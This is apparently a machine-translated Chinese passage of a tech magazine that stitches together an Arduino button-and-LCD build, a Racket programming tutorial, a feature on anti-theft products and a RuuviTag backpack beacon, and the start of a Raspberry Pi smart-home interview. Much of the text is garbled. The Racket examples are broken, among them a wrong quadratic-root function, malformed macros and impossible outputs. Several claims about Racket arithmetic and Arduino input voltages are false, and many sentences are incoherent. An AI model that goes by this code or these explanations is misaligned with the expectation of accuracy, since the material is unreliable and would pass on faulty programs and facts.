将 `Arduino` 的 `5V` 和 `GND` 端子分别连接到正极和负引线。如果设置正确，当按下相应的按钮时，每个 `LED` 都应该亮起。当每个按钮被按下时，`5V` 和正引脚之间形成连接，在两个 `LED` 端子之间产生电位差（电压）。由于负极未连接，电流流过电路并点亮 `LED`。使用跳线线将每个 `LED` 的端子连接到 `Arduino` 的数字引脚（如果你没有使用数字引脚）。打开设置第一部分的草图。在 `loop()` 中，你将有很多 `while` 块，其条件在设备被按下或重置时运行。你也可以使用 `SD` 卡保存数据，但现在需要将所有设备状态设置为“关闭”开始。声明你的变量和常量，并在 `setup` 中，为每个新按钮标记引脚：

```cpp
pinMode(pinInput, INPUT);
pinMode(playPin, INPUT);
pinMode(stopPin, INPUT);
```

你可以根据需要添加尽可能多的按钮。如果你使用的是 `Arduino Mega`，有大量的空闲引脚和空间供情况下使用。

```cpp
void updateState() {
  counting = 0;
  if (digitalRead(pinRead) == HIGH) {
    counting = 1;
  }
}
```

在处理按钮后，你应该有目的地使用 `LED` 和颜色来告知用户如何使用设备，就像封面包含的那样，我们增加了“下一首”和“上一首”按钮。

## 输入

要检查数字引脚的状态，你可以使用 `digitalRead()` 函数。如果所选引脚和地之间的电压小于 `3V`，它将返回 `0` (`'LOW'`) 或 `1` (`'HIGH'`)；如果电压更高，则返回 `1` (`HIGH`)。这就是如何让 `Arduino` 在按下按钮时亮起，并确定用户选择了什么模式。你随后设置一系列标志并在 `loop()` 中相应地执行任务。要创建一个中断，使用 `attachInterrupt()` 函数并在 `loop()` 的最顶部调用它。该函数应将所有标志设为 `0`，然后逐个检查每个按钮引脚是否设置为 `HIGH`，如果是，则切换相应的 `LED`。

> 我们需要让 `Arduino` 在按下按钮时工作，并确定用户选择的模式。

### 准备 LCD

为了让用户方便操作设备，集成一个基于文本的 `LCD` 是值得的。它们的运行成本相对较低（包含运费在 `2` 英镑以下），得益于 `LiquidCrystal` 库，它们的操作非常简单。以“Hello World”示例为例——本质上只有四条命令。`LCD` 的唯一缺点是操作所需的接线数量：四根用于数据，三根用于设置，两根用于背光，总共九个引脚连接到 `Arduino` 的数字引脚。在 `Uno` 或 `Mega` 上，这可能会占用项目的大部分空间。然而，`LCD` 通常为用户提供设备信息，而无需将其连接到计算机。

将线连接到每个 `LCD` 输出端。如果连接得当，你可能只需要紧固地焊接线即可，但如果你在此过程中使用了烙铁，请将它们固定。在连接到 `Arduino` 之前，旋转 `LCD` 使连接处对齐并位于显示器的左侧，以便执行以下指令：

- 你需要将最右的两个引脚连接到地，并将两边的第二个引脚连接到 `5V`（`VRS` 和 `VDD`）用于背光。左侧控制对比度的引脚应连接到电位器的滑片。接三个引脚是 `RS`、`RW` 和 `E`，用于与内置 `LCD` 接口连接。`RW` 可以接地，使 `LCD` 永久处于写入模式（`RS` 和 `E` 分别由“选择”和“写入”边沿控制）。最后是数据。对于更多的显示器，将剩下八条数据线需要连接，这些线也需要连接到 `Arduino`。对于 `8` 位 `LCD`，你随后可以使用那四个数据引脚来操作屏幕。

### 写入屏幕

你需要在代码中进行一些调整以初始化 `LCD`。在代码的最顶部，你需要包含两行：一行用于导入库，另一行用于初始化 `LCD`，指定哪些引脚连接到显示器上的端子。对于 `4` 位 `LCD`，你可以在 `4` 位位模式下操作屏幕。

```
#include <LiquidCrystal.h>
LiquidCrystal lcd(RS, E, D4, D5, D6, D7);
```

在 `setup()` 中，你需要调用 `lcd.begin()`，指定显示字符的列数和行数。这可以写在设备上或作为产品代码的一部分；例如，`1602a` 将有十六列和两行。然后，在程序的任何位置（排除 `setup`），你都可以用几条简单的命令写入屏幕。


蓝色的 `LCD` 在没有背景的情况下很难阅读。绿色的可以省电。你只需要在第一行写入操作模式（只需运行时间），随后在第二行写入名称，以便设备可用。使用 `LiquidCrystal` 库进行所有 `LCD` 控制，包括滚动和自定义字符。然而，你可以清除屏幕并打印到显示器，如下：

```
lcd.begin(16,2);
lcd.setCursor(0,0);
lcd.print("Issue #18");
lcd.setCursor(0,1);
lcd.print("Dictionary");
```

### 最后处理

项目可能已经完成并准备用户操作，但我们距离推向市场还有很一段。这只是我们认真对待这个产品的项目，还有几件事要做，显然的是：我们还没有考虑如何完成。

第一步是将电路焊接到洞孔板上——这些已准备好测试。你随后可以构建电子设备并安装 `LCD` 到外壳中。你还可以考虑便携性，降低成本。最后，如果设备要卖给用户，应该通过添加功能正确封装——就像真正的手机一样。以及最后处理。

## Racket 教程

## 在 Racket 中编写程序简介

使用 `Racket` 语言编程，一种带有大型标准库的完全可扩展的开源 `LISP`。`John Gowers` 是计算机科学领域的一位大学导师。他对 `Racket` 有浓厚的兴趣并结识了该领域一些最重要的人物。

# 资源

- `Racket`，包括 `Dracket IDE` `https://racket-lang.org/`

如果你使用包管理器，请确保 `Racket` 包含在内。如果你想单独下载它：


## 以上 Racket - 你的梦想语言或可用语言之一

`Racket` 是一种非常流行的开源编程语言，带有大型标准库，一个活跃的社区已经发展了 `20` 多年，其根源追溯到 `1970` 年的 `Scheme`。它在计算机科学中变得越来越流行，特别是在美国，是语言研究的关键工具。许多特性使得 `Racket` 非常适合通用教育、日常开发和前沿研究。要开始，你需要使用 `Dracket IDE`，它在下载 `Racket` 时通常提供。`Racket` 的结构类似于 `Python` 等语言的结构。程序是定义（定义函数和变量）与命令的混合。如果我们使用 `Dracket IDE`，我们可以通过将定义写入提示符并将命令放入 `REPL` 来分离它们。当我们想测试代码时，如果在 `REPL` 中输入命令 `(display "Hello, world!")` 就会得到输出。`REPL` 允许使用变量得到相同的输出，如图 `2` 或图 `3` 所示每个程序都以 `#lang` 开始，指定编写的语言。`Racket` 语言最兴奋的特性之一是它的创作自由，这给了我们多样性。在空间省略这一行很重要，尽管 `Racket` 会将从分号到行尾的所有视为注释。

### 注释

在 `Racket` 中，如果我们在任何地方放置分号，从分号到行尾的所有都被视为注释。

```
; 打印杂志的名字
(display "Linux & Developer")
```

### 定义

`Racket` 有两种定义：变量定义和函数定义。语法上的唯一区别是当我们写函数时，我们在括号中定义函数的名称：


从 `5.2` 确定

从 `5.2` 定义

`11`


> 变量定义：
>
> ```
> (define language-name "Racket")
> ```
>
> 函数定义：
>
> ```
> (define (function-name)
>   (display language-name))
> ```


上面的 Racket 函数带有参数内内。两者之间的区别是定义持有特定值，而函数定义带有可选参数的命令序列。与某些过程语言不同，Racket 不提供 `return` 命令；然而，函数的返回与函数定义中最后一个命令的返回值相同，如图6中的示例所示。

此示例演示了我们允许在函数内部定义的第一个。第一个另一个 `(define)` 语句，定义了一个新的 `number-of-pages`。在大多数语言中，函数作用范围内定义的变量只能从函数访问。我们将 `number-of-pages` 定义为返回值 `(get-number-pages)`。该变量的输出是消息的一部分（使用 Racket 库函数将数字转换为字符串并拼接），在此之前。为了调用函数，我们在括号内输入：


我们可以在 REPL 或顶部面板执行此操作。如果我们想接受参数，我们将这些内容放在函数定义的括号内：

- 找到二次方程的根

`ax + bx = c`

```racket
(define (quadratic a b c)
(define d (- (* b b) (* 4 a c)))
(/ (- b) (sqrt d) (* 2)))
```

## Racket 教程


| 图 3 | 语言 | Racket | 插入 | 标签页 | 帮助 |
|---|---|---|---|---|---|
| 图 4 | 语言 | Racket | 插入 | 标签页 | 帮助 |

## 深入内容

我们尝试解释在这篇介绍文章中使用的所有函数，但如果你仍然感到不确定，可以查看 `docs.racket.org`上的 Racket 文档。

如果你想学习更多关于 Racket 的知识，这是一个非常有用的资源。

```racket
# racket
(define (greet recipient) (print "Hello, "))
```

欢迎 Dracket (版本 6.11)

语言标记：内存限制: 120 MB。

+ * `(greet "Hello world")`

  hello,

欢迎来到 Dracket (版本 6.11)

语言标记：内存限制: 120 MB。

+ * `(greet "Hello world")`

  hello,

上述 Racket 变量可以存储字符串、列表等等值。

我们可以通过将函数名及其参数括在括号中来调用函数：

> `(square-quadratic 1 -1)`

1618398874995

我们使用了 `print` 函数，它是 C 语言中 `printf` 函数的 Racket 版本。与 C 语言 `printf` 不同，`print` 不需要我们为不同数据类型使用不同的选择器：我们可以为字符串以及我们想要打印的任何其他数据类型使用同一个选择器。

数据按照出现的顺序作为参数传递给格式化字符串。

## Racket 中的算术

`(square-quadratic)` 函数定义是 LISP 最具代表性的练习之一，Racket 继承了它。大多数编程语言使用 `+` 或 `*` 运算符来实现算术运算；运算符写在操作数之间，例如 `+ 2`。

在 Lisp 及其衍生语言中，算术运算与其他函数使用相同的语法。例如，`+` 函数接收两个数字并返回它们的和，而 `*` 函数对乘法执行相同的操作：

```
+ 1 2 3 4 5
15
```

```
> (0 + 0 1)
1
```

`-` 函数以特殊方式工作：当它们接收到多个参数时，它们执行减法或除法，如下：

```
- 10 4 3 2 1
3
```

但当它们只接受一个参数时，它们将等同于 `(- 0)` 或 `(/ 1)` 作为恒等：

```
- 2
2
```

现在我们可以在 `define` 中定义变量和命令。不过，这是唯一的方法，因为当我们在 REPL 中建议定义时，所有内容都会丢失。

## 条件与顺序执行

与大多数编程语言一样，Racket 提供了条件判断用于分支。例如，我们可以写一个接收布尔值的函数，如果它是假的则返回真，如果是真的则返回假：

```racket
> (define-true-or-false b)
(if b 
  (display "true")
  (display "false"))
True.
.
```


| 图 5 | 语言 | Racket | 备注 | 标签页 | 帮助 | 语法检查 | 调试 |
|---|---|---|---|---|---|---|---|
| | | | | | | | |

```racket
(display "Welcome to Racket!")
(display "Please type your command at the prompt:")
(define (print-message) (display "I am programming in Racket!"))
(print-message)
```

欢迎 Dracket (版本 6.11)

语言标记：内存限制: 120 MB。

* 使用

```racket
> (print-true-or-false #f)
False.
```

在这里我们说 Racket 使用 `#t` 指代“真”值，使用 `#f` 指代“假”。`if` 命令的通用语法为：

```racket
(if condition
  then-command
  else-command)
```

通过这种方式，Racket 具有与其他语言 `if` 语句相同的功能。Racket 提供了比较器，我们可以用它们检查表达式的条件，返回两个特殊布尔值之一，或者如果 `(c a b)` 小于 `b` 则返回 `#t`，否则返回 `#f`。在示例中，我们使用了 `(equal? value value)`，相等时返回 `#t`，否则返回 `#f`。我们可以在 Racket 的 `if` 或 `else` 分支内部编写更多命令。这看起来很难，因为它似乎总是将第一个命令视为主体，第二个命令视为 `else`。

LSP 及其衍生语言（如 Racket）的主要特性之一是它们处理列表的特殊构建语法。

幸运的是，Racket 提供了一种很有用的方法将多个语句合并为一个语句：使用 `begin` 函数，它允许你将语句分组并按顺序运行。图 8 显示了我们如何使用它创建图 7 中代码的运行版本。

```racket
; 此函数返回值 6，
(get-number-of-pages #6)
```

```racket
; 这一个也是如此，
(define (print-and-return-number-of-pages)
```

```racket
(define number-of-pages
  (get-number-of-pages)
  (print "There are ~a pages." number-of-pages)
  number-of-pages)
```

图 6

图 7

```racket
(define (speaky password)
  (if (equal? password "swordfish")
    (display "Welcome to the speedy!")
    (display "What's your drink?")
    (display "Wrong password!")))
```

## Racket 中的命名

由于 Racket 不使用运算符，因此用于函数和变量的字符存在限制。在定义像 Racket 的函数时，你可能会认为它们是某种运算符，实际上，使用字符比使用单词更快。

上面的代码则不是的。

对于所有函数，`begin` 的返回类型与列表的返回类型相同。事实上，你可能会听到 Racket 中的定义包含一个“隐式”的 `begin`。如果你需要更具命令式，请使用单独的函数来排列命令顺序，但这是 Racket 等语言使这种函数更有用的关键。通常想在 Racket 中编写带有 `else` 分支的语句，在 Racket 中，我们使用单独的函数来实现。

```racket
(check-os-name)
(if (not (equal? os-name "Linux"))
  (display "Please use a Racket."))
```

当我们使用 `begin` 时，如果想在主体中放置多个语句，就不需要它，在这种情况下没有歧义。

## 列表与迭代

列表用于“列表处理器”。正如这所示，主要特性之一是处理列表。我们可以使用 `(list ...)` 语法创建一个列表，表示一系列元素。我们可以使用它的函数对列表进行操作：

```racket
> (reverse '(1 2 3 4 5))
5 4 3 2 1
```

对于 Racket 循环的实现非常重要。在 Racket 中，我们使用以下方式遍历列表：

```racket
(for [x '(1 2 3 4 5)]
  (display x))
```


Racket 在扩展语言本身以构建自己的语言方面非常出色

作为一个高级的，我们将编写一个模拟 `C` 风格循环的宏。完成的文章如图 11 所示，示例如图 12 所示。`for` 循环如下：

```c
int i;
for (i = 0; i < 5; i++) {
    printf("a C loop: %d", i);
}
```

循环的第一部分 `i = 0` 在最开始执行。然后，循环重复中间条件 `i < 5`。它检查是否为真。如果真，循环执行括号后的语句（在本例中为 `printf` 语句），然后执行最后的增加操作 `i++`。然后重复循环。

## 宏

我们之前提到 Racket 特别擅长的之一是你自己的宏。编写宏的最简单方法是使用 `define-syntax-rule`。它的工作原理与 `define` 类似，但可能会发现它更强大。



| 图 9 | |
|---|---|
| Emacs Racket 补全 |
| 欢迎 Racket 6 |
| Racket 是多语言环境 |
| Racket 太棒了！在 Racket 上编程 |

# 图 10

```racket
(define (user-profile name age hobbies)
  (printf "Name: %s" name)
  (printf "Age: %d" age)
  (display hobbies)
  (for-each hobbies
    (user-profile "John" 25 "Writing Linux Racket")))
```

Name: John
age: 25
Hobbies:
Writing
Linux
Racket

用于循环。第二个语句是循环本身，我们使用递归来实现它。这在 Racket 中是一种非常常见的模式：我们定义一个函数 `loop`，它在最末尾调用自己以实现循环。循环的主体如下：

```racket
(when test
  body
  incr
  (loop))
```

换句话说，当 `test` 为真时，执行所有的 `body` 命令，这些命令发生在循环结束时，然后递归地调用此函数以再次循环。请注意，我们可以使用 `body` 作为传递 `c-for` 语法的完整主体，因为我们可以在 `body` 中使用多个循环（例如图 12 中所示的 `printf` 和 `display` 命令）。

Racket 支持任意数量的函数参数。函数的 `returns` 是一个映射，通过将值放入列表来返回它们。

在任何一点，如果中间条件不再为真，`printf` 语句就会终止。这与 `for` 非常不同，在我们实现它之前，Racket 并不模拟 `for`。第一步是声明语法格式的签名：

最后一步是局部形式。如果我们想在程序中使用多个循环（可能嵌套在另一个循环内部），我们不希望这些多个循环相互干扰。我们使用 `local` 语法，使得局部函数只存在于调用它的作用域内——如下：

```racket
(define-syntax
  (c-for int incr body ...))
```

标记标记 `test` 和 `body` 在 `c-for` 循环的不同组件中运行。`body` 是 Racket 中一个非常有用的列表，而 `body` 实际上是一个零或多个参数的列表，如下所示：

```racket
(local [definitions]
  body ...)
```

在这里，每当我们定义 `definitions` 部分时，它在作用域内只能被 `body` 语句看到。在这种情况下，我们将循环函数定义为局部的，然后只在 `local` 定义的 `body` 部分。

下一步是定义规则，我们使用 `begin` 来实现。`begin` 命令中的第一个命令在开始时运行。

我们还没有涵盖许多高级语法形式，我们甚至还没有开始解析解析器或管理绑定哈希表，这些是我们在模拟像 Racket 这样的其他语言时将需要的。

Lisp 闻名的声点之一是函数可以接受的参数数量。你用语言最简单的形式编写的内容。在语言使用中，Racket 使用方括号 `[]` 而不是括号 `()` 进行调用。在 Racket 中，所有这些都是不同类型的函数参数，因为它们不是定义的宏。

但我们也向你提供了一些关于 Racket 能力的思路，并鼓励你去尝试这种令人迷人的语言。

# Racket 方括号

下面我们使用 `define-syntax` 来模拟不同的语言。

你可能已经注意到我们使用了方括号而不是 Racket（默认的）。这看起来像是不同类型的语法，但对它来说这是事实，而且两者是可以互换的，只要你使用方括号和类型）；然后编辑器将打印以匹配正确的缩进，以便尽管使用了括号也能尽可能让你的代码具有可读性：

# 图 11

# 图 12

```racket
(define-syntax
  (c-for int incr body)
  body ...)
```

```racket
(c-for (define i 0) ((incr i 3))
  (printf "Name: %s" i)
  (display "Racket!")
  (local [(loop (when test
                   body
                   i = 1)
                   i = 2)
                 (loop)]))
```


以下示例源自 `bracket`；相反，遵循 Lisp 方言如 `Scheme`、`Gambit` 和 `Lisp`，`Racket` 建议了一些操作。

`www.luxuser.com` 57

# 特性

保护你的科技设备


笔记本电脑、平板电脑或手机被盗是非常令人沮丧的。正如 `Mike Bedford` 所解释的，你可以做很多来确保你的 IT 设备安全。

# 如何找到你需要的

## 防盗产品，p60

科技设备的防盗产品范围提供物理安全的设备、在设备被动过时通知你的报警器，以及让你的设备独一无二的产品。我们查看了优缺点，并识别了一些合适的产品。

## 行为改变，p62

即使你不购买任何防盗产品——尽管你确实需要——你也可以让你的设备变得安全一点。人们很容易掉以轻心，这里是一些预防措施。

## DIY 解决方案，p63

创建自己的防盗产品可以为你提供额外的功能，同时也是一次有趣的尝试，并可能节省成本。我们推荐了一些 DIY 解决方案：自制笔记本锁，以及一种可能会类型的报警器


### 好消息和坏消息

英国的犯罪率一直在下降。坏消息是，尽管家庭盗窃依然存在，给门上锁是很常见的，但明智的做法是考虑使用至少两种或三种类型来保护你的笔记本。

反过来，这里有所有类型，突出了一些实际产品。我们需要说明一个重要点，并不是哪种单一类型的产品优于其他，组合使用效果最好。所以，给门上锁是很常见的，但明智的做法是考虑使用至少两种或三种类型来保护你的笔记本。

# 功能：保护您的设备

笔记本电脑可以释放安全锁。根据具体产品，合法所有者可以使用钥匙或组合锁来取回笔记本电脑。价格差异很大，从低至 3 英镑到 100 多英镑不等。

此产品包含一根钢丝，可安装到任何带有某种环状（可将其编织在其中）的类型产品上。对于笔记本电脑，你还需要一个适配器，它必须插入比 `Kensington` 类型电缆更细的插槽，但它可能无法连接到细电线和适配器，此外，它的滑动可能会略有不同。

平板电脑很少配备 `Kensington` 锁，手机也不使用这种方式。实际上，在它们放在安全的地方时保护它们要容易得多，而且任何适配器都需要安装在小型设备上。你可以从各种渠道获得在手机背部胶合的楔形保护壳，这些壳也可以用于平板电脑。然而，平板电脑更好的解决方案是 `Basel` 通用锁。

# 快速指南

## `Prey`：追踪软件

`Prey` 并不能阻止你的移动设备被盗，但它确实让小偷在偷走设备后更难找到它。它是你安装在笔记本电脑、平板电脑或手机上并在后台运行的软件。你可以在 `Prey` 上报告设备被盗，然后，当它连接到任何包含 IP 地址和基于 Wi-Fi 信号位置信息的设备时，该设备就可以获取小偷的照片并接收截屏——这可能会有所帮助。

另一种日益受欢迎的类型是形式略有不同的带蓝牙功能的标签，它附着在设备上。它受保护并与智能手机配对。地图上有标记，每个标记都有略有不同的特征，在对比评测中显示，了解要寻找什么以及预计要支付多少费用是非常重要的。首先，选择范围在 35 米左右且无法轻易附在笔记本电脑上的标签很重要。它们经常被显示为挂在连接到笔记本包的钥匙上，或隐藏在其中一个口袋中。要触发近距离报警，手机和标签之间的距离要达到预设距离。并不是所有标签都显示此功能，因为从信号强度判断距离是困难的。然而，所有标签都提供了一种方法，当标记的手机在范围内（取决于环境以及标签与手机之间是否有墙，长达 15 米）时，从手机手动触发笔记本电脑报警。这有助于你追踪标签，如果它在人群搜寻区域，可能会导致小偷将其遗弃，这将有助于人们的积极活动；如果超出了蓝牙范围，则利用社区寻找它。

`Pro` 版本也可帮助找回设备。`Prey` 是开源的，标准版本是免费的。它适用于包括 `Linux` 和 `Android` 在内的操作系统。

`Maclocker` (`www.maclocker.com`) 的锁孔适配器是一种低外形的铰链支架，可以使用高强度胶水固定在平板电脑底座上，允许连接电缆，并在未使用时折叠起来。它大约花费 35 英镑。

上述 `Prey` 为你提供报告，包括有关丢失设备的信息。`Prey` 应用程序允许你在地图上看到设备在哪里丢失的。标签大约花费 20 英镑，但某些无法充电或更换的标签会**强迫**你购买新标签——幸运的是，在电池耗尽的一年左右后，会有优惠价。唯一的市场领导者是 `Tile` (`www.thetile.com`)，尽管它也是


# 产品

## 需要考虑的防盗设备

让你的笔记本电脑或其他设备成为潜在小偷的目标概率大大降低。以下几类产品实现了这两个重要功能。

第一类产品允许你以一种肉眼可见且难以移除的方式标记产品。其中一种类型是制有地址或唯一序列号的模板，并配有涂层和特殊墨水，可以刻在笔记本电脑或其他设备的表面，使其移除几乎是不可能的。另一种是特制的防篡改标签，显示你的地址或 ID，可以使用胶水将其固定在你的设备上。同样，这很难移除，在最好的情况下也会留下痕迹。当使用序列号时，可以在数据库中注册——唯一的优势是设备被盗后可以注册。

- 1 `FateakSak Sport`：为小物品提供物理保护很困难，因为它们很容易被盗：(`locklock.com`，75 美元) 提供设备安全。它采用由钢制成的类似绳绳和组合锁的形式，你可以将其固定在不可移动的物体上。
- 2 报警器：`Lock Alarm Mini`。( `www.lockalarm.com`，25 美元) 提供物理保护和报警。物理保护由你提供 

- 顶部：`SmartWater` 无法移除并唯一标识所有者。`Tile` 帮助你追踪设备没有真正的近距离报警功能。`Pebble Honey` (`www.pebblebee.com`) 提供近距离报警，大多数笔记本电脑都有 `Kensington` 锁孔可以使用电缆固定它们。另一种主要的锁是版本，只对机会性行窃有效。

制有地址或唯一序列号的模板，配有涂层和特殊墨水。坦率说，它们大部分只在 `Windows` 上工作，虽然有一些免费下载的，对于有效的编码，解决方案是可能的（参见 `RuTag`）。设备产品有两个不同的目的：首先，它们增加了设备在被盗后被警察找回的概率；其次，因为所有权使你的标记变得可见——这是一个奇怪的概念。当使用紫外线时，表面会变得可见。当事情变得有趣时，最小的痕迹就足够擦掉表面。`SmartWater` 高达 75 英镑，来自 `https://shop.smartwater.com`。在英国，设备安全价格低至 25 英镑，这些可以在这里 `shop.smartwater.com` 购买。在美国，多达十件物品每月 5 美元即可保护。一位犯罪预防官员说，他把笔记本电脑放在一个超市包里，因为没有人会猜比几美元更值的东西。

# 功能：保护你的科技

## 行为改变

物理保护、报警和标记产品是重要的防盗措施，应该考虑任何设备。然而，你的行为也同样，改变可能同样有效。

如果你想要更智能的东西，或者如果你想要更多保护，可以考虑背包。你也可以带着笔记本电脑远足，专业的笔记本背包可能更合适，因为它们的设计旨在安全放置笔记本电脑，并为配件和文件留出大量空间，你可以为这种背包支付 100 美元，但我们推荐更便宜且不显眼的。

### 如果你离开笔记本电脑，保险可能不会赔偿你

我们的第一个要点是注意到你在没有使用设备时带着它。当你走在街上时，放在口袋里或提包里而不是手里的小物品很容易被看到并抢走。对于平板电脑和笔记本电脑等物品，抢夺是不可行的。没有必要携带笔记本包，这对于伪装供应设备的作用很小。带有标记的背包，其隐蔽性没有那么好，但小偷仍然觉得拿背包要困难得多。

接下来，关于你在最易受的公共场所使用设备的情况，例如机场候机室、火车站、咖啡馆或大学图书馆。你不使用它的情况非常罕见，但你应该小心不要放在视线范围之外。毕竟，疏忽发生只需要一瞬间，在你的 

离开无人时丢失笔记本电脑对数据很重要，但在你有备份之前，如果它落入坏人手中，可能会更加昂贵。便携设备上没有存储你需要从家里访问的信息。如果在移动时需要存储数据，那么进行加密是明智的。选择正确的软件是正确的，要关注带走此类小物品。对你笔记本电脑的主要风险是你需要休息一下，也许去买咖啡。重要的是，如果你离开笔记本电脑无人，保险可能不会赔偿你——或者如果你独自离开，你可能会发现自己必须回答来自你的一些困难问题。

当然，我们能给的最简单的建议是永远不要离开笔记本电脑无人，即使时间很短。总有足够的时间走那趟路，而且在任何情况下即使你看起来没有风险，也比丢失笔记本电脑要好，但我们必须现实。在这种情况下，进行一次评估并制定你自己的一套规则如何？


左上方：如果你将笔记本电脑装在背包里，偷窃会困难得多。右上方：可视化的监控你的设备可以防范潜在的小偷。

### DIY 解决方案

如果你是一个“技术折腾者”（`denouser`）而非普通用户，你可能会考虑创建自己的防盗工具和设备。我们已经看到，纯软件的报警器寥寥无几，而且远未达到完全实现该功能的程度。在 `Windows` 下，增加额外的保护层是有益的，即使它操作起来并非 100% 完美。它必须提前准备好。如果这个创新的想法是有用的，而且希望除了花费时间外不需要投入太多精力，那么它就值得考虑。

自制报警器的权重优势在于，它可以完全按照你想要的方式运行。

尽管某些功能可能有用，但除非它们很便宜，否则肯定很贵。你可能会发现很难选择添加它们。例如，你可能会发现检测 Wi-Fi 信号的模式比检测某人在你和访问点之间走动更容易。如果这能提供检测笔记本电脑被盗的手段，即使它的效果不像笔记本电脑中那样普及。某些产品（不仅仅是 `联想 ThinkPads`）具有某种现成的“驱动器活动保护系统”（`DAPS`），可以在笔记本掉落时锁定硬盘以防止损坏。

最后，我们不想要那种大到能把盖子震掉的报警器，所以请注意报警触发时的盖子和盖子开关。

另一种替代方案是使用运动检测。几乎所有的智能手机都能做到，而且电池可以使用一年或更久，这比 Wi-Fi 耗电得多。如果你打算在外部电池上运行并准备定期充电，这不再是一个劣势，而是一个更大范围的优势。

另一个你可能想尝试的项目是基于带有加速度计的小型板的提示报警器。查看 `Photon` (`www.photo.com`)，由于其尺寸和重量，它可能是一个竞争者。`Photon` 还内置了蓝牙，因此它提供了许多其他功能。

另一个特别实用的计划是 `RuuviTag` (`https://tag.ruvi.com`)，它采用纽扣电池供电紧凑电路板，封装在防水外壳内，包含了各种传感器。

学习如何制作一个类似于 p62 的 DIY 基础套装。包含增值税的价格 69 欧元，对于使用者来说约为 76 英镑。

针对物联网应用，因此你可以用它来真实世界的监控实验。

缺点是，大多数小型单板计算机（包括 `Photon` 在内）使用的是锂电池而非蓝牙。对于一个必须在内部运行的标签来说……

### 快速指南：保险

保险对于贵重设备很重要，但务必确保你的设备得到了充分覆盖。

不同国家、保险公司之间的细节不同，但有两件事你需要检查：你的家庭保险是否涵盖你带出户的物品？如果设备用于业务，它是否在涵盖范围内？

通用保险策略提供的覆盖可能不足以涵盖你的科技设备提供专门保险。

# 功能：保护技术

## 自制报警器的权重优势在于，你可以精确定义它喜好的运行方式

`www.linuxuser.com`

### 如何做：制作背包信标

#### 1 背包信标

这个项目是制作你自己的追踪设备的简单方法，你可以以隐蔽的方式将其塞在背包里。本质上，你正在做的是让 `RuuviTag` 变成你的近距离信标，以便使用 `Google` 的开放信标格式 `Eddstone` 进行追踪。首要任务，是确保你通过刷写运行了 `Eddstone` 的蓝牙。`RuuviTag` 设置为空中下载（`OTA`）更新，因此很容易刷写。我们使用 `Moto G4` 作为我们的智能手机，因此你需要从商店下载 `nRF Connect` (`http://bit.ly/nRFConnect`)。

#### 2 进入引导加载程序 (`bootloader`)

你应该在手机上访问 `lab.ruuvi/` 下载应用，使用 `'RuviTag'` 链接并下载。要刷写 `RuuviTag`，我们首先需要让进入引导加载程序。你可以通过附带的金属夹将其从外壳中取出。在 `RuuviTag` 上，你会看到两个标记有数字的按钮。在插入时按下标记为 2 的按钮，直到看到红灯。接下来，打开 `nRF Connect` 并向下滑动找到你的设备。一旦找到，点击“`Connect`”并选择板上将转烁的点。



#### 3 准备刷写

在应用图形界面的右上角有一个微小的 `DFU` 配置，你需要点击它。启用此后选择你想要使用的文件类型。默认的“`Distribution package ZIP`”是正确的，点击“`OK`”并启动 `RuuviTag` 固件。这将开始更新你的 `RuuviTag`。（注意：如果你的固件实际名为 `'weather_update'`，进度条将显示“`Application has been sent`”并与 `Ruiboot` 断开连接。现在你得配置你的信标了。）

#### 4 准备就绪

回到 `lab.ruuvi/` 下载第二个名为 `'Eddstone'` 的链接。回到第 3 步并遵循相同的过程，然后选择 `edstone_file_1`、`2` 或 `3` 进行上传。

#### 5 配置你的信标

前往 `lab.ruuvi/` 下载。回到第 3 步并遵循相同的过程，然后选择 `edstone_file_1`, `2` 或 `3`。首先打开 `nRF Connect` (`http://bit.ly/nRFConnect`)。一旦找到设备，点击“`Connect`”并选择板上将转烁的点。

让 `RuuviTag` 运行。它就在你的背包范围内。如果笔记本电脑掉落，它会触发报警。

#### 6 测试你的背包

在大多数手机上，你都可以通过该应用查看信标的距离。如果笔记本电脑离开了背包范围，它就会报警。

#### 7 总结

通过这种方法，你可以以极廉的价格为你的笔记本电脑防盗。虽然它不是完美，但它是一个很好的开始。

## Pi 智能触摸屏

## 开源智能家居

位于旧金山的一个时尚智能家居项目，为家庭自动化提供了一个优雅的界面。

这个项目解决了一个棘手的问题：利用廉价且实用的 1 号树莓派（`Raspberry Pi`）触摸屏。`Peter Monaco` 的任务是创建一个能够与墙面平齐的触摸屏，用于家居自动化，且不需要任何电线。

### 你对树莓派进行了哪些修改？

正如我所说，空间非常紧缺。如果不进行一些修改，`树莓派` 在垂直方向上无法放入电线盒中。我用跳线代替替换了触摸屏适配器，但那些线悬挂得太长，无法放入盒内。我决定剥掉一端并将其直接焊在电路板上。这为我节省了半英寸的高度，而这正是必须的。

此外，当你想要给树莓派连接以太网线时，我必须做一个急转弯才能放入盒中。我使用的是一种很硬的末端，所以我制作了一个更灵活的自制五类线缆扩展线。


你的边框做得非常好。你绝对很有 3D 打印经验——你用什么打印机？对想要复制你作品的人有什么建议吗？

你选择了 `Home Assistant` 作为界面。你对计划的其他家居自动化项目有什么打算？

